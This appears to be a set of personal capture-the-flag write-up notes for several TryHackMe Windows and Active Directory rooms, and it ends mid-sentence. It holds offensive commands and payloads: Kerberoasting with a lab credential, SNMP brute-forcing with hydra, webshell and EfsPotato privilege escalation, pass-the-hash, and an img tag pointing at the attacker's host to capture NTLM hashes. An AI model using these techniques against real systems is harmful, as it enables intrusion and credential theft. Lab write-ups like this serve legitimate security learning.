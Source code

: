 # THM-Enterprise-AD
- Port `7990` was open with Atlassian on it, stating they are moving to Github. So, did a Google Search on that and found a link to powershell script whose previous commit had a username and passwd.
- So, using this credential, used the impacket's `GetUserSPNs` script,
`impacket-GetUserSPNs 'LAB.ENTERPRISE.THM/nik:ToastyBoi!' -dc-ip _IP_ -request`
to dump Kerberoastable account hash and got it cracked.
- So, now this account got us RDP access and ran the `Winpeas.exe` script and found an unquoted service path on a service. So, finally used that to put the reverseshell to it, getting the service started and getting a `System` shell.

# THM-Stealth
- Windows
- User was CTFish.
- For PrivEsc, ran `PrivescCheck.ps1` and found a writable `xampp` server directory. So, downloaded the `p0wny` webshell script and executed by visiting the `shell.php` through the browser which allowed to see the hidden `SeImpersonate` privilege,
Link: https://github.com/flozz/p0wny-shell/
Now used the `EfsPotato` C-Sharp script exploit,
Link: https://github.com/zcgonvh/EfsPotato

# THM-Flatline
- Windows
- For user shell, got a Command Execution exploit,
Link: https://www.exploit-db.com/exploits/47799
and got the shell using it.
- Now we were already in the administrators group, but were not allowed to access `root.txt`. So, changed ownership and permissions on it with,
```
takeown /R /F .\root.txt   => Take OwnerShip
icacls ".\root.txt" /grant _UserName_:F	   => Gave full permissions to our current user
```

# THM-YearOfTheOwl
- Windows
- For user, we did a UDP `Nmap` scan and found `snmp` open. So, now had to bruteforce the `CommunityString` with hydra.
`hydra -P /usr/share/wordlists/rockyou.txt _IP_ snmp`
And now, got a username from the user default OID value using `snmpwalk`.
- Now for user located sam dump files in recycle bin,
got the sid of our current user with `whoami /all` and then,
`cd 'C:\$Recycle.bin\_SID_'`
to get the recycle bin files. Now use impackets `secretsdump` module to get the hashes and performed pass the hash on Admin user account.

# THM-Ra-AD
- Windows
- While enumerating webpage on port 80, located a question based password reset functionality. Now on the page located an image with a girl holding a dog and saving it found the name of the dog in the image name itself. Now got the password reset and got access to smb share to locate the first flag with the `spider_plus` mode in `crackmapexec` tool.
- Now we also found a link to `sparky` application which is a chat message service app. Installed and logged into it using the user whose passwd we just reset. And now located the user who was online. So, used the payload `<img src='http://tun0/test.png'>` and sent to this user online and started `responder` to listen for this online user's NTLM hash when he interacts with the message.
Now cracked the hash and logged in and got the user flag i.e. flag2. 
- Now for privesc, found our user is in `Account Operator` group and located a powershell script in `C:\` directory. This script passes the content of a `hosts.txt` file which is owned by another user on the machine to the dangerous method `Invoke-Expression` which runs as admin user.
So, with current user's privilege, changed the credential of this `hosts.txt` file owned user and via `smbclient` got a new `hosts.txt` file with the following content,
